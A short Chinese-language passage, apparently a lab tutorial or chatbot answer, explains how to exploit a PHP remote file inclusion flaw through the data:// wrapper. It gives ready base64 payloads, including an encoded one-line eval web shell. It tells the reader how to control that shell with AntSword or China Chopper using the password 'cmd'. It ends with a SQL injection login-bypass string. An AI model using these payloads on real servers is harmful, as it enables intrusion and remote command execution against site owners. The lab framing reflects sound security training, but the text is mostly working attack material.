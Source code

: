 

2. 在远程文件包含（RFI）漏洞实验中，利用 PHP 伪协议上传木马的核心思路是通过伪协议构造可执行的 PHP 代码。以下是常用的方法，你可以在表单的word参数中尝试输入：
使用 data:// 伪协议直接执行 PHP 代码
plaintext
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+


原理：data:// 协议可以直接传递数据，这里将 PHP 代码（<?php phpinfo();?>）进行 base64 编码后传输
解码后实际执行的代码：<?php phpinfo();?>（可替换为木马代码，如一句话木马）
替换为一句话木马的示例（<?php @eval($_POST['cmd']);?> 的 base64 编码）：
plaintext
`data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7Pz4=`


你可以用蚁剑、中国菜刀等工具连接，连接地址就是当前漏洞页面的 URL，密码是 cmd（代码中定义的 $_POST['cmd']）



admin ' or '1' = '1




